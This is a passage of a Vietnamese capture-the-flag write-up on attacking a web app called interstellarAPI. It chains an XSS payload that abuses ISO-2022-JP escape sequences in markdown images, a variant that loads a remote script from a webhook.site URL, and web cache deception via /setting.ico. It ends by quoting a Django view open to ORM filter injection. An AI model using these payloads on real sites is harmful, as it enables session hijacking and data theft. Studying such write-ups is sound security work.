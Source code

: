 Ở đây mình sử dụng payload sau `![%1b$@](a)+%1B(B+![b](onerror=alert(1)//)` để thực hiện XSS. Cụ thể thì khi bung ra image thì nó có dạng `<img src=a alt="%1b$@">%1B(B<img src="onerror=alert(1)//" alt="b"/>` và qua escape character của ISO-JP-2022 thì nó sẽ trở thành `<img src=a alt="¥"><img src="onerror=alert(1)//" alt="b"/>` và lệnh alert sẽ được thực hiện

![image](https://hackmd.io/_uploads/S1wwqHqHyg.png)

Từ đó mình có payload sau để thực hiện fetch về webhook
    
`![\x1b$@](a)+\x1B(B+![b](onerror=s=document.createElement('script');s.src='https://webhook.site/30ef8bd4-a54e-4f28-9975-876da0939e17';document.body.appendChild(s);//)`

Nhưng đây chỉ là self xss có nghĩa là chỉ user mình đăng nhập mới có thể XSS nên mình tìm cách để làm với contract_manager
    
<details><summary>nginx.conf</summary></details>
    
    
Trong file nginx conf thì khi endpoint có đuôi là (css|js|jpg|jpeg|png|gif|ico|woff|woff2|ttf|svg|eot|html|json) sẽ được đưa vào cache và nếu ta gọi một lần nữa thì sẽ được lưu lại. Vì thế ý tưởng của mình là đưa XSS lên để redirect tới.
Nhưng làm sao để gọi file có đuôi trên trong khi endpoint mình cần là /setting
    
Thì mình có tìm ra cách bypass như sau 
    
![image](https://hackmd.io/_uploads/rkRaNWiBJx.png)
    
Ok thì mình có thể get 2 lần endpoint /setting.ico để có thể lưu cache lại
    
![image](https://hackmd.io/_uploads/Bke_669B1g.png)

![image](https://hackmd.io/_uploads/BkgJ0p5Hkg.png)

Và mình để thực hiện XSS thành công
    
Ok, tiếp theo mình sẽ thử vào contract_manager qua database của docker xem có gì hot

Ở đây ta có thể search và filter tất cả các contract nhưng cũng không có gì khai thác được
    
![image](https://hackmd.io/_uploads/HknQmkjHJg.png)

Nên mình đọc lại source của file ./interstellarAPI/contracts/views.py
    
```python
class FilteredContractsView(APIView):
    permission_classes = [IsAuthenticated, IsContractManagerOrAdmin]

    def post(self, request, format=None):
        try:
            if request.data.get("all") == True:
                contracts = Contract.objects.all()
            else:
                filtered_data = {key: value for key, value in request.data.items() if key != "all"}
                contracts = Contract.objects.filter(**filtered_data)
                
            serializer = ContractSerializer(contracts, many=True)
        except Exception as e:
            return Response({"error": str(e)}, status=status.HTTP_400_BAD_REQUEST)
            
        return Response(serializer.data, status=status.HTTP_200_OK)    
```
    